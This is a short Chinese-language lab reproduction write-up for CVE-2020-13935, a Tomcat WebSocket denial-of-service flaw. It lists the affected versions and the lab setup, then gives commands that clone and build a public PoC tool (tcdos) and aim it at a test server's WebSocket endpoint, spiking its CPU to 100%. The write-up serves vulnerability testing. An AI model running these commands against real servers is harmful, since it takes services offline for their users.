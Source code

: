 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs  
下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
![image](./a.png)  
访问http://172.16.35.133:8080/ 如下图，确认服务启动成功  
![image](./b.png)

# 0x03 利用条件
Tomcat上部署了WebSocket应用，如examples/websocket

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36
10.0.0-M1 <= apache tomcat <= 10.0.0-M6
8.5.0 <= apache tomcat <= 8.5.56
7.0.27 <= apache tomcat <= 7.0.104

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
无
